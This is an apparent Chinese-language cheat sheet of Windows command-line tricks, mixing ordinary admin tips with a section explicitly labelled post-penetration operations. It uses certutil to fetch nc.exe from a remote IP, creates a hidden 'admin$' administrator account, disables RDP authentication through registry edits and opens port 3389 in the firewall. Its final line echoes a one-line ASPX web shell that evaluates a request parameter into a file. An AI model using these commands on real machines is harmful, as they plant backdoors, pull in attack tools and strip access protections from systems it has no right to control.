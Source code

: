 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe

powershell
```ts
$client = new-object System.Net.WebClient
$client.DownloadFile(‘http://payloads.online/file.tar.gz', ‘E:\file.tar.gz’)
```

## 渗透后置操作

```bash
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /D 0 /f
echo 远程桌面端口 port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon
```

## FAQ
###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### 终端操作
```
# 查询
qwinsta 查询连接
query session
query user
# kill
log off <id>
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 10 /f

# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 查找文件 
win7以上
```ts
find F:\Downloads #查找目录下所有文件　
find F:\Downloads | findstr Apifox      # 过滤Apifox
```
xp/2003

dir \calendar /s
dir D:\ /s | findstr /i txt >c:\tmp.txt


## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy show all
netsh interface portproxy reset
```


## 注册表添加删除程序
x64
HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\

## echo 相关

转义用^

aspx
```
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>  >1
```
